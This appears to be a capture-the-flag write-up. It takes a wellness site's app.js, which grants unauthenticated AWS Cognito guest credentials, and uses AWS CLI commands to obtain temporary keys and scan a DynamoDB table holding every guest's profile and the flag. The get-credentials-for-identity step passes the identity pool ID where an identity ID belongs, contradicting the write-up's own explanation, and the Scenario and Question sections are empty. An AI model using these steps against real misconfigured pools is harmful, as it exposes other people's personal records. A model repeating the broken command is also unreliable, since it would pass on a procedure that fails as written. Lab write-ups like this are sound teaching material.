









# Scenario






# Question 



---

## Access the website and inspect



It contains `app.js`, which is the source code of the web application.

```js
// Byte Lotus Wellness — guest dashboard
//
// No login screen on purpose: every visitor gets "free" AWS guest
// credentials from our Cognito Identity Pool so we can save wellness
// preferences without the friction of an account.

const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";

AWS.config.region = AWS_REGION;
AWS.config.credentials = new AWS.CognitoIdentityCredentials({
  IdentityPoolId: IDENTITY_POOL_ID,
});

function guestId() {
  let id = localStorage.getItem("byteLotusGuestId");
  if (!id) {
    // First visit: hand out a throwaway guest id, same as checking in.
    id = "guest-" + Math.random().toString(36).slice(2, 10);
    localStorage.setItem("byteLotusGuestId", id);
  }
  return id;
}

function renderDashboard(item) {
  const el = document.getElementById("dashboard");
  if (!item) {
    el.textContent = "Welcome! We don't have wellness data for you yet — check back after your first spa visit.";
    return;
  }
  el.textContent = [
    "Name: " + (item.name ? item.name.S : "—"),
    "Loyalty notes: " + (item.notes ? item.notes.S : "—"),
  ].join("\n");
}

AWS.config.credentials.get(function (err) {
  if (err) {
    console.error("Could not fetch guest credentials:", err);
    return;
  }

  const dynamodb = new AWS.DynamoDB({ region: AWS_REGION });
  dynamodb.getItem(
    {
      TableName: TABLE_NAME,
      Key: { guest_id: { S: guestId() } },
    },
    function (err, data) {
      if (err) {
        console.error("Could not load dashboard:", err);
        return;
      }
      renderDashboard(data.Item);
    }
  );
});

```


---

## Guest Credentials

From `app.js`, we can see the Cognito pool ID, AWS region and DynamoDB table name. The app requests guest credentials without a login, so let's check what those credentials allow us to read.

```bash
aws cognito-identity get-id \
--identity-pool-id "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688" \
--region us-east-1
```


First, get an identity from the pool, then use the returned identity ID to request temporary credentials. The identity ID is different from the pool ID.

```bash
aws cognito-identity get-credentials-for-identity \
--identity-id "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688" \
--region us-east-1 > creds.json
```




```bash
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' creds.json)
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretKey' creds.json)
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' creds.json)
```

export to set environment variables in the shell.


```bash
aws sts get-caller-identity --region us-east-1
```



This confirms the credentials work, and we are using the guest role `complimentary-cognito-unauth-role`. Next, let's try reading the table directly.

---

## Read Guest Profiles

```bash
aws dynamodb scan --table-name complimentary-GuestWellnessProfiles --region us-east-1
```




It reveals every single guest's profile



The `guest-vip-042` profile has the flag in its notes. So, the guest role can read other guests' records too.

And there is the flag!

*DONE!!!*

---
